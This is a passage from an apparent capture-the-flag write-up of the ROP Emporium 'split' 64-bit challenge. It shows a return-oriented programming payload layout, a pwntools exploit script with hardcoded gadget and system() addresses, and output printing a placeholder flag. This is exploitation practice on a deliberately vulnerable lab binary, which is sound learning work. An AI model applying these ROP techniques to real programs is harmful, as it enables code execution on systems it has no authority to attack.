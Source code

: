 ``` payload = 40 bytes of junk + Addr of POP RDI gadget + Addr of argument + Call Addr of system() ```

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped)
```

Lets try our exploit from ```pwntools```,

```c
ra@moni:~/split$ cat exploit.py
from pwn import *
cat=p64(0x601060)
call_system=p64(0x40074b)
rdi=p64(0x00000000004007c3)
buff=""
buff+='A'*40
buff+=rdi
buff+=cat
buff+=call_system
print(buff)

ra@moni:~/split$ python2 exploit.py | ./split
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped)
```

Done! we have completed split (64 bit)


